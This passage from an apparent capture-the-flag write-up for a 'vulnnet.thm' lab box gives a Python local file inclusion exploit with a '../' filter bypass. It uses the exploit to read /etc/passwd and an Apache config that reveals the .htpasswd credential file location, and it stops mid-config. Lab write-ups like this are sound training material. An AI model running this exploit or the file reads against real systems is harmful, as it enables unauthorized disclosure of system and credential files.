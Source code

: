 ```python
#!/usr/bin/env python3
import requests
import sys
s = requests.Session()

if __name__ == "__main__":
    DELIMETER1 = '''                </p>
            </div>
        </div>

    </div>

</div>'''
    DELIMETER2 = '<script src="/js/index__7ed54732.js"></script>'
    target = ""
    argument = ""
    try:
        target = sys.argv[1]
        argument = sys.argv[2]
    except:
        print(f"Usage: {sys.argv[0]} <ip/host> <file>")
        exit()
    argument = argument.replace("../", "..//")
    print("TARGET:", target)
    print("FILE:", argument)
    r = s.get(f"http://{target}/?referer={argument}")
    print(r.text.split(DELIMETER2)[0].split(DELIMETER1)[1])
```

And I use the script `./lfi.py vulnnet.thm /etc/passwd` 

There is an interest line

```
server-management:x:1000:1000:server-management,,,:/home/server-management:/bin/bash
```

Knowing how apache works, I wanted to find the `.htpasswd` file for the subdomain `broadcast`.
The config file `/etc/apache2/sites-enabled/000-default.conf` shows us a lot of information about http service.
```xml
<VirtualHost *:80>
        ServerAdmin webmaster@localhost
        ServerName vulnnet.thm
        DocumentRoot /var/www/main
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
        <Directory /var/www/main>
                Order allow,deny
                allow from all
        </Directory>
</VirtualHost>

<VirtualHost *:80>
        ServerAdmin webmaster@localhost
        ServerName broadcast.vulnnet.thm
        DocumentRoot /var/www/html
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
        <Directory /var/www/html>
                Order allow,deny
                allow from all
                AuthType Basic
                AuthName "Restricted Content"
                AuthUserFile /etc/apache2/.htpasswd
```